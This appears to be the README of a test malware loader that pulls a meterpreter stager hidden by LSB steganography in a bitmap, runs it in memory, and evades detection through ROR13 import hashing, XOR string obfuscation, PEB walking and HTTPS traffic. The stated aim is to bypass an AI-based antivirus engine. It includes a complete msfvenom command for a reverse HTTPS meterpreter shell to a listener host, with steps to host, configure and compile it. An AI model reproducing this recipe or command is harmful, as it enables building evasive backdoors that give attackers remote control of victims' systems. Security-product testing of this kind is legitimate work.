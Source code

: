 #Description
This is a test malware sample used to load LSB encoded code from the internet. This specific sample template works with LSB encoded bitmap files to extract a stager payload for meterpreter.

The goal is to demonstrate a means of loading malicious code onto a system
without ever touching disk. Additionally, the code leverages a method of
loading require API functionality via accessing the loaded modules directly
from the PEB (Process Execution Block).

This method allows the code to gain access to the Kernel32.dll functions in
order to load additionaly libraries using the LoadLibraryA exported function.
All of the functions loaded leverage a ROR13 hashing technique to avoid any
strings from showing up during static analysis. This makes it much more difficult
for an analysis system or signature detection system to determine the malicious
nature of the binary.

Any other strings that are required in raw form are encoded with a simple XOR
and offset. These strings will no longer be visible to static analysis, but can
easily be decoded at run time to generate required information (URLs, user agents,
etc).

Finally, since LSB steganography is leveraged to download the backdoor, there
are minimal malicious artifacts in the core binary that would allow any detection
from making a determination that this is malicious. The only point when it would
be possible to tell is after the meterpreter shell has been extracted from the
bitmap and loaded directly into memory. The stager payload leverages the executable
encoder shikata-ga-nai to obfuscate the staged payload that is retrieved from the
LSB encoded bitmap file. All communicate done from the meterpreter stager and shell
is done over HTTPS (SSL/TLS) to avoid network based indicators from tripping
security tools.

1. Generating the meterpreter stager:
  msfvenom -p windows/meterpreter/reverse_https LHOST=10.248.189.74 LPORT=443 -b '\x00\xff' -e x86/shikata_ga_nai -i 3 -f raw
2. Run the stego encoder with the binary output from above and a desired bitmap
3. Host the bitmap on some HTTP site
4. Set the desired target URL for the bitmap in Utils.h (LSB_TARGET_URL (see HideStrings))
5. Compile and run

Note:
  This is a sample to test malware detection capabilities on security software. The
  provided code was designed to bypass Cylance's AI based detection engine.

Summary of Tactics implemented:

  1. ROR13 hashing - Manually resolving imports
    https://nickharbour.wordpress.com/2010/07/01/writing-shellcode-with-a-c-compiler/
    https://www.fireeye.com/blog/threat-research/2012/11/precalculated-string-hashes-reverse-engineering-shellcode.html
  2. String Obfuscation - XOR with Offset
  3. LSB Steganography - encoding malware into benign picture file (used when downloading the meterpreter stage)
  4. In-memory execution - allocates space and launches payload directly from memory (never touch disk)
  5. SSL - communication over SSL to avoid network detection

--------

Future possibilities:

  1. Staged-Encoding - encodes the staged payload to look benign on the wire
  2. Unhooking/remapping binaries
